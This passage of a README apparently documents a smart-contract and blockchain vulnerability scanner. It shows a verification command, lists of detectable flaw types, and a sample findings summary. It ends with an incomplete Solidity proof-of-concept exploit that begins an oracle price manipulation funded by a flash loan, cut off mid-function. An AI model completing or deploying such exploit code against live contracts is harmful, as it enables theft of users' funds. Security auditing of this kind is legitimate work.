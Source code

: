 ### **3. Verification-Only Mode**
Run enhanced verification on existing scan results:
```bash
python tools/analyzers/enhanced_vulnerability_verifier.py scan_results.json /repo/path
```

## 🔍 **Supported Vulnerability Types**

### **Smart Contract Vulnerabilities**
- ✅ Oracle price manipulation
- ✅ Reentrancy attacks
- ✅ Integer overflow/underflow
- ✅ Access control bypass
- ✅ MEV extraction vectors
- ✅ Flash loan exploits

### **Blockchain Infrastructure**
- ✅ P2P network security issues
- ✅ Consensus mechanism flaws
- ✅ Cryptographic weaknesses
- ✅ RPC interface vulnerabilities
- ✅ EVM implementation bugs

### **Economic Attack Vectors**
- ✅ Price manipulation schemes
- ✅ Liquidity extraction attacks
- ✅ Governance token exploits
- ✅ Fee bypass mechanisms
- ✅ Economic incentive misalignment

## 📈 **Output Examples**

### **Executive Summary**
```json
{
  "executive_summary": {
    "total_vulnerabilities": 413,
    "critical_vulnerabilities": 0,
    "high_vulnerabilities": 231,
    "verified_high_confidence": 5,
    "overall_risk_level": "HIGH",
    "estimated_economic_impact": "Estimated $10M+ at risk"
  }
}
```

### **Proof-of-Concept Exploit**
```solidity
contract OortOracleExploit {
    function executeOracleManipulation(
        address targetAsset,
        uint256 flashAmount
    ) external {
        // Step 1: Flash loan large amount
        IFlashLoanProvider(flashProvider).flashLoan(
            targetAsset, flashAmount, abi.encode(attackData)
        );
    }

    function onFlashLoan(address asset, uint256 amount) external {
        // Step 2: Manipulate price through large trade
```